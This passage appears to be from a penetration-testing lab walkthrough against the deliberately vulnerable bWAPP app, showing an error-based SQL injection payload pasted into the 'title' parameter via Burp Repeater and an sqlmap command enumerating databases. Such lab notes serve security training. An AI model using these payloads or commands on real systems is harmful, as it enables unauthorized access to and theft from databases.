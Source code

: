 - In BurpSuite, send the request to Repeater
  - Copy the first payload from SQLMap and paste it as part of the `title` parameter

```bash
hacking' AND (SELECT 1819 FROM(SELECT COUNT(*),CONCAT(0x716a767171,(SELECT (ELT(1819=1819,1))),0x7171707071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'bLrY'='bLrY&action=search
```

![SQL syntax error](1-webapp-httpassets/image-20230504192903226.png)

- Use `sqlmap` to get a list of tables for the `bWAPP` database

```bash
# List databases
sqlmap -u "http://192.42.186.3/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title --dbs
```

![SQLMap Databases](1-webapp-httpassets/image-20230504194044253.png)
